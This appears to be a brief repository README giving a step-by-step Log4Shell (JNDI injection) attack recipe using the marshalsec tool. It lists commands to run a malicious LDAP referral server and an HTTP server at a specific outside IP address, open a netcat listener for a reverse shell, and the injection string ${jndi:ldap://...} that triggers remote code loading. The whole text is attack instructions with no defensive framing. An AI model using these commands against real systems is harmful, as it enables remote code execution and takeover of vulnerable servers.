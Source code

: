 # marshalsec-jar

Needed the file for a test.
1、java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://121.37.207.248:5555/#exp" 55562、python3 -m http.server 5555
3、nc -lvnp 6666
4、${jndi:ldap://121.37.207.248:5556/exp}
5、https://bbs.zkaq.cn/t/6492.html
